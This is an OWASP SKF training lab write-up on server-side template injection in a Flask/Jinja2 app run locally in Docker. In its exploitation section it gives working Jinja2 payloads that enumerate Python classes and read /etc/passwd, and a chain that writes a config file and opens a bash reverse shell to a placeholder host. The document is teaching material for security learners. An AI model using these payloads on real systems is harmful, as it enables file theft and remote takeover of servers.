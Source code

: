 # KBID 267 - SSTI

## Running the app

```text
$ sudo docker pull blabla1337/owasp-skf-lab:server-side-template-injection
```

```text
$ sudo docker run -ti -p 127.0.0.1:5000:5000 blabla1337/owasp-skf-lab:server-side-template-injection
```

{% hint style="success" %}
 Now that the app is running let's go hacking!
{% endhint %}

![Docker image and write-up thanks to ContraHack!](.gitbook/assets/screen-shot-2019-03-04-at-21.33.32.png)

## Reconnaissance

#### Step 1

As with all reconnaissance we first have to determine the type of application that is running and the programming language it was written in. This could easily be achieved by setting up an intercepting proxy and study the requests and responses made by the application to the web sever. 

Also, trying to trigger error messages on the application can also give away a lot of information about the application under test.

In the screenshot below in the response of the we find the python version that is running, accompanied  with the server "Werkzeug". This is a clear indicator the web application might be running python flask, and python flask typically runs with the templating engine, jinja2.

![](.gitbook/assets/ssti1.png)

#### Step2

Now that we have determined the type of application that is running let's try to see if any user supplied input is accepted by the application. The input from the URL is being processed directly in the application and outputted in the HTML. So now we have control of whatever is being reflected on the page. How do we now determine if the application might be susceptible to Server Side Template Injection?  
  
First we need to do some investigation on how the syntax works, so we dive into the docs!

{% hint style="info" %}
[http://jinja.pocoo.org/docs/2.10/templates/](http://jinja.pocoo.org/docs/2.10/templates/)
{% endhint %}

And here we find the following information.

```text
{% ... %} for Statements
{{ ... }} for Expressions to print to the template output
{# ... #} for Comments not included in the template output
#  ... ## for Line Statements
```

Now, we want to use expressions to print to the template output to see if our payloads are interpreted and executed on the server-side by the templating engine. The most ideal way to do so is to inject mathematical statements.

As found in the docs:

```text
{{ 1 + 1 }} is 2.
```

Let's see what happens of we inject the expression with the operator described above!

![](.gitbook/assets/screen-shot-2019-01-10-at-13.13.36.png)

## Exploitation

A nice website with write-ups about different type of payloads on template engines is found here:  
[  
https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20injections\#dump-all-used-classes](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20injections#dump-all-used-classes)

In python `__mro__` or `mro()` allows us to go back up the tree of inherited objects in the current Python environment, and `__subclasses__` lets us come back down. Read the [docs](https://docs.python.org/3/library/stdtypes.html?highlight=subclasses#class.__mro__) for more. Basically, you can crawl up the inheritance tree of the known objects using `mro`, thus accessing _every class loaded_ in the current python environment 

Now, lets find some usefull injections for Jinja2.  
In order to build our exploit this here already looks pretty promising:

```python
{{ ''.__class__.__mro__[2].__subclasses__() }}
```

After injecting the payload we now have a list of all the different classes loaded in our target application. Let's see if we can use it to read some information from the file system

![](.gitbook/assets/screen-shot-2019-01-10-at-17.59.05.png)

On position 40 whilst iterating over the different loaded classes we find the "read" function. Let's use this function to read the "/etc/passwd" file from the filesystem.

```python
{{ ''.__class__.__mro__[2].__subclasses__()[40]('/etc/passwd').read() }}
```

![](.gitbook/assets/screen-shot-2019-01-10-at-17.59.36.png)

As mentioned before this attack can ultimately be used also to gain remote code execution on the target application. In order to do so we first would need to set up a listener and than inject the following payloads

```text
{{ ''.__class__.__mro__[2].__subclasses__()[40]('/tmp/evilconfig.cfg', 'w').write('from subprocess import check_output\n\nRUNCMD = check_output\n') }} # evil config
{{ config.from_pyfile('/tmp/evilconfig.cfg') }}  # load the evil config
{{ config['RUNCMD']('bash -i >& /dev/tcp/xx.xx.xx.xx/8000 0>&1',shell=True) }} # connect to evil host
```

## Additional sources

[https://portswigger.net/blog/server-side-template-injection](https://portswigger.net/blog/server-side-template-injection)  
  
[https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20injections\#dump-all-used-classes](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20injections#dump-all-used-classes)  
  
[https://pequalsnp-team.github.io/cheatsheet/flask-jinja2-ssti](https://pequalsnp-team.github.io/cheatsheet/flask-jinja2-ssti)  
  


